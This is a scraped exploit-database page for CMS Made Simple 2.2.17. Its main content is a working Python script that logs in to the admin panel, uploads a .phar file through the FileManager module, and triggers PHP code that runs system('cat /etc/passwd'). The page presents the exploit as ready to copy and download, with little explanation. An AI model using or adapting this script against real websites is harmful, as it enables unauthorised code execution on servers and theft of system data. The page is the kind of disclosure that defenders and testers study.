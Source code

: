 ```yaml
---
title: CMS Made Simple 2.2.17 Remote Code Execution exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173623&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-21
fetch_date: 2025-10-04T11:51:16.725447
---
```


# CMS Made Simple 2.2.17 Remote Code Execution exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for CMS Made Simple 2.2.17 Remote Code Execution

2023-07-20 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173623
#Exploit Title: CmsMadeSimple v2.2.17 - Remote Code Execution (RCE)
#Application: CmsMadeSimple
#Version: v2.2.17
#Bugs: Remote Code Execution(RCE)
#Technology: PHP
#Vendor URL: https://www.cmsmadesimple.org/
#Software Link: https://www.cmsmadesimple.org/downloads/cmsms
#Date of found: 12-07-2023
#Author: Mirabbas Ağalarov
#Tested on: Linux

import requests

login_url = 'http://localhost/admin/login.php'
username=input('username = ')
password=input('password = ')

upload_url = 'http://localhost/admin/moduleinterface.php'

file_path = input("please phar file name but file must same directory with python file and file content : <?php echo system('cat /etc/passwd') ?> : ")
#phar file content """"<?php echo system('cat /etc/passwd') ?>"""""

login_data = {
'username': username,
'password': password,
'loginsubmit': 'Submit'
}

session = requests.Session()
response = session.post(login_url, data=login_data)

if response.status_code == 200:
print('Login account')
else:
print('Login promlem.')
exit()

files = {
'm1_files[]': open(file_path, 'rb')
}

data = {
'mact': 'FileManager,m1_,upload,0',
'__c': session.cookies['__c'],
'disable_buffer': '1'
}

response = session.post(upload_url, files=files, data=data)

if response.status_code == 200:
print('file upload')
rce_url=f"http://localhost/uploads/{file_path}"
rce=requests.get(rce_url)
print(rce.text)
else:
print('file not upload')
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)